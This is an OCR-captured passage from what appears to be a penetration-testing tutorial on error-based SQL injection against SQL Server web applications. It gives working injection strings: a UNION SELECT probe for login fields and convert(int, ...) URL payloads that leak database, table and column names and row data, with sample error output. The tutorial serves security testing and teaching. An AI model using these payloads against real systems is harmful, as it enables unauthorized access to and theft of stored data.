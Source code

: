 4. Likewise, conduct the same test until no error is shown to retrieve all column names of the table.

**Test 4**

1. Enter **' Union Select sum (username) from USER_TEST** and any password in Password field.

2. It outputs error message as:
*Microsoft OLE DB Provider for ODBC Drivers error ‘80040e07’*
*Microsoft] [ODBC SQL Server Driver] [SQL Server] The sum or*
*average aggregate operation cannot take a varchar datatype as*
*an argument*

3. The error message displays data type of second field (username).

4. Likewise, you can find data types of all the fields in the table.

The database-level error messages disclosed by an application help the users to build a vulnerability exploit request. There are even chances of automated exploits based on the different error messages generated by the database server.

- **Extract Database Name**
  As penetration testers, you can test the target database by sending a query that generates an error message containing the name of the database. To perform this task, type the following SQL query in the URL of the target web application:
  *http: //example.com/page.aspx?id=1 or 1=convert (int, (DB_NAME) ) --*
  Syntax error converting the nvarchar value ‘[DB NAME)’ to a column of data type int.
- **Extract First Database Table**
  As penetration tester, you can test the target database by sending a query that generates an error message containing the first database table used by the target. Type the following SQL query in the URL of the target web application:
  *http: //example.com/page.aspx?id=1 or l=convert(int, (select top 1*
  *name from sysobjects where xtype=char (85)))--*
  Syntax error converting the nvarchar value ‘[TABLE NAME 1)’ to a column of data type int.

- **Extract First Table Column Name**
  You must test the target database by sending a query to generate an error message containing the first table column name. To perform this task, type the following SQL query in the URL of the target web application:
  *http://example.com/page.aspx?id=1 or l=convert(int, (select top*
  *1 column_name from DBNAME.information_schema.columns where*
  *table_name='TABLE-NAME-1') ) --*
  Syntax error converting the nvarchar value ‘[COLUMN NAME 1]' toa column of data type int.

- **Extract First Field of First Row (Data)**
  You must extract the first row of the target database by sending a query to generate an error message containing the first field of first row data. To perform this task, type the following SQL query in the URL of the target web application:
  *http: //example.com/page.aspx?id=1 or 1=convert(int, (select top*
  *1 COLUMN-NAME-1 from TABLE-NAME-1) )--*
  Syntax error converting the nvarchar value '[FIELD 1 VALUE]' to a column of data type int.

### Determine Privileges, DB Structure and Column Names
Penetration testers must find if the database of a target web application reveals sensitive information such as user privileges, database structure, and names of the administrators and allows the external users to enumerate database columns.
